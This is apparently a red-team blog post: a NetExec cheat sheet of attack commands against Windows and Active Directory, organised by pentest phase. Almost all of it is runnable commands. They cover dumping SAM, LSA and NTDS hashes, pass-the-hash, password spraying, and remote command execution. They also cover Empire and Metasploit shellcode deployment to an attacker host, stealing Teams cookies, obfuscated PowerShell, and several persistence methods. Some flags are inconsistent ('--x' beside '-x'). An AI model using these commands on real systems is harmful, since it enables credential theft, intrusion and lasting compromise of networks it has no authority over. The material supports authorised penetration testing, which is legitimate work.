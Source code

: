 ```yaml
---
layout: post
title: Netexec CheatSheet
date: 30-06-2025
categories: [CheatSheet]
tag: [Red Team, Pentest, AD]
---
```


# Netexec/nxc CheatSheet:

Below is a **comprehensive table of NetExec (nxc) commands**, organized by the main phases of a typical penetration test: **Enumeration, Credential Access, Exploitation, Lateral Movement, Post-Exploitation, and Persistence**. This table is designed for quick reference and covers the most relevant options and modules for each phase.

## NetExec / nxc Command Table by Phase

| **Phase** | **Command / Option** | **Description** | **Example** |
| :-- | :-- | :-- | :-- |
| **Enumeration** | `nxc smb <target>` | Basic SMB enumeration | `nxc smb 10.0.0.5` |
|  | `--shares` | List SMB shares | `nxc smb 10.0.0.5 --shares` |
|  | `--users` | Enumerate users | `nxc smb 10.0.0.5 --users` |
|  | `--groups` | Enumerate groups | `nxc smb 10.0.0.5 --groups` |
|  | `--computers` | List computers | `nxc smb 10.0.0.5 --computers` |
|  | `--sessions` | List active SMB sessions | `nxc smb 10.0.0.5 --sessions` |
|  | `--disks` | List disks | `nxc smb 10.0.0.5 --disks` |
|  | `--loggedon-users` | List logged-on users | `nxc smb 10.0.0.5 --loggedon-users` |
|  | `--pass-pol` | Show password policy | `nxc smb 10.0.0.5 --pass-pol` |
|  | `--rid-brute` | RID brute-force for user discovery | `nxc smb 10.0.0.5 --rid-brute` |
|  | `ldap` protocol | AD enumeration (users, groups, etc.) | `nxc ldap 10.0.0.5 -u user -p pass --users` |
|  | `-M bloodhound` | Collect BloodHound data | `nxc ldap 10.0.0.5 -u user -p pass -M bloodhound` |
|  | `-M enum_dns` | Dump DNS from AD DNS server | `nxc smb 10.0.0.5 -u user -p pass -M enum_dns` |
|  | `-M enum-avproducts` | Enumerate installed AV/EDR products | `nxc smb 10.0.0.5 -u user -p pass -M enum-avproducts` |
|  | `ftp` protocol | List files/directories | `nxc ftp 10.0.0.5 -u user -p pass --ls` |
| **Credential Access** | `-u <USERNAME> -p <PASSWORD>` | Basic authentication | `nxc smb 10.0.0.5 -u admin -p 'Password123!'` |
|  | `-H <LM:NT>` | Pass-the-hash | `nxc smb 10.0.0.5 -u admin -H aad3b435b51404eeaad3b435b51404ee:hash` |
|  | `-U <userfile> -P <passfile>` | User/password spraying | `nxc smb 10.0.0.5 -U users.txt -P passwords.txt` |
|  | `--lsa` | Dump LSA secrets | `nxc smb 10.0.0.5 -u admin -p pass --lsa` |
|  | `--sam` | Dump SAM database | `nxc smb 10.0.0.5 -u admin -p pass --sam` |
|  | `--ntds` | Dump NTDS.dit (domain hashes) | `nxc smb 10.0.0.5 -u admin -p pass --ntds` |
|  | `-M gpp_password` | Dump Group Policy Preferences passwords | `nxc smb 10.0.0.5 -u admin -p pass -M gpp_password` |
|  | `--laps` | Retrieve LAPS passwords | `nxc smb 10.0.0.5 -u admin -p pass --laps` |
|  | `-M keypass_discover` | Search for KeePass files | `nxc smb 10.0.0.5 -u admin -p pass -M keypass_discover` |
|  | `-M msol` | Retrieve MSOL account password | `nxc smb 10.0.0.5 -u admin -p pass -M msol` |
| **Exploitation** | `-x <cmd>` | Execute command (CMD) | `nxc smb 10.0.0.5 -u admin -p pass -x whoami` |
|  | `-X <pscmd>` | Execute PowerShell command | `nxc smb 10.0.0.5 -u admin -p pass -X '$PSVersionTable'` |
|  | `-M empire_exec -o LISTENER=<listener>` | Deploy Empire agent | `nxc smb 10.0.0.5 -u admin -p pass -M empire_exec -o LISTENER=http` |
|  | `-M met_inject -o LHOST=<attacker> LPORT=<port>` | Inject Metasploit shellcode | `nxc smb 10.0.0.5 -u admin -p pass -M met_inject -o LHOST=10.0.0.1 LPORT=4444` |
|  | `--get-file <remote> <local>` | Download file from target | `nxc smb 10.0.0.5 -u admin -p pass --get-file \\C$\creds.txt creds.txt` |
|  | `--put-file <local> <remote>` | Upload file to target | `nxc smb 10.0.0.5 -u admin -p pass --put-file shell.exe \\C$\Temp\shell.exe` |
| **Lateral Movement** | `-M rdp` | Enable RDP on target | `nxc smb 10.0.0.5 -u admin -p pass -M rdp` |
|  | `-M impersonate` | List tokens for privilege escalation | `nxc smb 10.0.0.5 -u admin -p pass -M impersonate` |
|  | `-M install_elevated` | Check for AlwaysInstallElevated privilege | `nxc smb 10.0.0.5 -u admin -p pass -M install_elevated` |
|  | `-M get_netconnections` | Get current network connections | `nxc smb 10.0.0.5 -u admin -p pass -M get_netconnections` |
|  | `mssql` protocol | Lateral movement via MSSQL | `nxc mssql 10.0.0.5 -u sa -p pass -x whoami` |
| **Post-Exploitation** | `--sessions` | List active sessions | `nxc smb 10.0.0.5 -u admin -p pass --sessions` |
|  | `--local-groups` | List local groups | `nxc smb 10.0.0.5 -u admin -p pass --local-groups` |
|  | `-M enum_dns` | Dump DNS from AD DNS server | `nxc smb 10.0.0.5 -u admin -p pass -M enum_dns` |
|  | `-M enum-avproducts` | List installed AV/EDR | `nxc smb 10.0.0.5 -u admin -p pass -M enum-avproducts` |
|  | `-M teams_localdb` | Steal Teams cookies | `nxc ldap 10.0.0.5 -u admin -p pass -M teams_localdb` |
|  | `rdp` protocol | Take screenshot via RDP | `nxc rdp 10.0.0.5 -u admin -p pass --screenshot` |
| **Persistence** | `--x 'schtasks ...'` | Create scheduled task for persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'schtasks /create ...'` |
|  | `--x 'reg add ...'` | Registry run key persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'reg add ...'` |
|  | `--put-file <PAYLOAD> "%APPDATA%\\...\\Startup\\<PAYLOAD>"` | Startup folder persistence | `nxc smb 10.0.0.5 -u admin -p pass --put-file shell.exe "%APPDATA%\\...\\Startup\\shell.exe"` |
|  | `--x 'sc create ...'` | Install service for persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'sc create ...'` |
| **Advanced/Other** | `-L` | List available modules for protocol | `nxc smb -L` |
|  | `--obfs` | Obfuscate PowerShell commands | `nxc smb 10.0.0.5 -u admin -p pass -X '<pscmd>' --obfs` |
|  | `--bloodhound --collection All` | Run BloodHound collector | `nxc ldap 10.0.0.5 -u admin -p pass --bloodhound --collection All` |
|  | `nxcdb` | Interact with NetExec database | `nxcdb` |
|  | `workspace create <name>` | Create new workspace | `nxcdb (default) > workspace create pentest1` |
|  | `workspace <name>` | Switch workspace | `nxcdb (default) > workspace pentest1` |

**Notes:**

- Replace `<target>`, `<USERNAME>`, `<PASSWORD>`, `<listener>`, `<attacker>`, `<PAYLOAD>`, etc., with your actual values.
- Many commands can be chained, e.g., `nxc smb 10.0.0.5 -u admin -p pass --sam --lsa --dpapi`[^3].
- Use `-h` or `--help` after any protocol or module for more options.

**References:**

- [StationX NetExec Cheat Sheet](https://www.stationx.net/netexec-cheat-sheet/)
- [Ben Heater’s NetExec Notes](https://notes.benheater.com/books/active-directory/page/netexec)
- [NetExec Wiki](https://www.netexec.wiki)
- [seriotonctf/cme-nxc-cheat-sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)
- [NetExec Database Usage](https://www.netexec.wiki/getting-started/database-general-usage)
- [Netexec Linkedin](https://www.linkedin.com/posts/housenathan_netexec-cheat-sheet-essential-commands-activity-7300440179683610624-WxmG)
- [Hacking article]https://www.hackingarticles.in/active-directory-pentesting-using-netexec-tool-a-complete-guide/)
- [AD](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/internal-shares/)
- [Splunk](https://research.splunk.com/endpoint/adbff89c-c1f2-4a2e-88a4-b5e645856510/)
- [Netexec Wiki Github](https://github.com/Pennyw0rth/NetExec-Wiki/blob/main/getting-started/selecting-and-using-a-protocol.md)

